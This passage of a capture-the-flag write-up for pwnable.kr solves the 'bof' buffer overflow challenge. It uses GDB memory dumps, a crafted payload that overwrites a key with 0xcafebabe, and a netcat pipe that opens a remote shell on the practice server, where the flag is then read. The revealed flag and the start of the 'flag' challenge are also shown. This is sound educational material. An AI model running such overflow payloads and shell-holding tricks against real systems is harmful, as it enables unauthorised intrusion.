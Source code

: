 + In another shell use `python -c 'print("!"*4*13)'` to generate the input.
+ Rerun the program: `(gdb) r`
+ Paste the generated input and wait for the breakpoint to kick in.
+ Inspect memory: `(gdb) x/16x overflowme`

```text
(gdb) x/16x overflowme
0xffffce9c:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffceac:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffcebc:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffcecc:	0x21212121	0xdeadbe00	0xffffcf94	0xffffcf9c
```

As expected, the null terminator of the string overflowed and was written over the last byte of the key _(little endian system)_. Knowing this, we can craft a payload that will write the correct values onto that bytes and as such make the left side of the comparison equal to the expected right one.

+ `(gdb) run <<< $(echo -e $(python -c "print('!'*4*13)")\\xbe\\xba\\xfe\\xca)`
+ `(gdb) x/16x overflowme`

```text
(gdb) x/16x overflowme
0xffffce9c:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffceac:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffcebc:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffcecc:	0x21212121	0xcafebabe	0xffffcf00	0xffffcf9c
```

Et voilà! The comparison will now succeed. Let's quit GDB and run the same payload over netcat - running it locally would give us a shell on our system since the program will spawn `/bin/sh`.

+ `echo -e $(python -c "print('!'*4*13)")\\xbe\\xba\\xfe\\xca | nc pwnable.kr 9000`{: .spoiler}

It seems that this does nothing, shell commands won't give any output... That's because the spawned process terminates immediately since STDIN does not get tied to it. A simple - yet obscure - workaround is using `cat` to keep the pipe open:

+ `(echo -e $(python -c "print('!'*4*13)")\\xbe\\xba\\xfe\\xca; cat -) | nc pwnable.kr 9000`{: .spoiler}

It won't look like it but you are now effectively interacting with a shell:

```sh
pwd         # Check the working directory
ls -l       # Look for the flag
cat flag    # Grab it!
```

The flag is: _daddy, I just pwned a buFFer :)_{: .spoiler}

---

# 4. flag

We're only given a seemingly ordinary binary to play with:

```bash
> file ./flag
flag: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header

> chmod +x flag && ./flag
I will malloc() and strcpy the flag there. take it.
```
